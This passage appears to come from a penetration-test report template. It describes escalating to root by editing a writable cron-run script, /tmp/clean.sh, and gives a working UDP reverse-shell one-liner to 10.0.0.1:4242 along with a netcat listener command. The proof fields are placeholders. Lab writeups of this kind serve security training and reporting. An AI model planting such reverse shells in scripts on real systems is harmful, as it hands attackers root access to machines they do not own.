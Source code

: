 
**Severity**: High

**Steps to reproduce**: We can find the script by running a LinEnum enumeration suite on the system. Since the script
is written in bash and it can be changed, we can edit it and add a reverse shell command.
When the script is executed by cron, we'll get a reverse shell under root user.



**PoC**:
UDP reverse shell command to add to `/tmp/clean.sh`:

```bash
sh -i >& /dev/udp/10.0.0.1/4242 0>&1
```

while listener is running as

```bash
nc -u -lvp 4242
```

#### Post Exploitation

**proof.txt content**: proof-txt-content

**Proof screenshot**:

![Proof screenshot](./img-placeholder.png)

### Target #2 - 192.168.x.2

#### Service Enumeration
